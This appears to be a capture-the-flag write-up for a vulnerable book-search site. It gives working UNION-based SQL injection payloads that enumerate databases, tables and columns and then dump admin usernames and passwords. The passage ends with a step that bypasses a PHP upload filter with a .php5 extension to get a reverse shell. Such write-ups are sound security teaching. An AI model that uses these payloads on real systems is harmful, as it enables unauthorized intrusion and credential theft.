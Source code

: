 ## Part 1 of the Challenge

### Step 1: SQL Injection Discovery

When you access the book search website, you notice a SQL injection vulnerability in the search field. This means you can potentially interact with the underlying database.

#### Database
To start, you want to get the names of all available databases. You can use the following command in the search field:

`-1' UniOn Select 1, GROUP_CONCAT(0x7c,schema_name,0x7c) FROM information_schema.schemata-- -`

*This will retrieve the names of all databases and display them as a concatenated string.*

#### Tables
After obtaining the names of databases, you can select a specific database (e.g., "library") and retrieve the names of all tables in that database:

`-1' UniOn Select 1, GROUP_CONCAT(0x7c,table_name,0x7C) FROM information_schema.tables WHERE table_schema="library"-- -`

*This will retrieve the names of all tables in the "library" database.*

#### Columns
Now that you have table names, you can select a specific table (e.g., "Admin") and retrieve the names of all columns in that table:

`-1' UniOn Select 1, GROUP_CONCAT(0x7c,column_name,0x7C) FROM information_schema.columns WHERE table_name="Admin"-- -`

*This will retrieve the names of all columns in the "Admin" table.*

#### Flag 1
Finally, you can use the column names you obtained to extract data from the "Admin" table and obtain Flag 1. Here's the command:

`-1' UNION SELECT 1, GROUP_CONCAT('Username: ', username, ' | Password: ', password) FROM Admin-- -`

*This will retrieve user credentials stored in the "Admin" table as a concatenated string.*

**Flag: polycyber{SQL_Br3ak0ut}**

## Part 2 of the Challenge

### Step 2: Using the Credentials

Now that you have the administrator's credentials (Flag 1), you can log in to the "upload.php" page using these credentials.

### Step 3: Bypassing the Upload Protection

During file uploads on the "upload.php" page, you attempt to upload a PHP file to get a reverse shell, but it's blocked. To bypass this protection, you will use a different PHP extension, for example, ".php5".

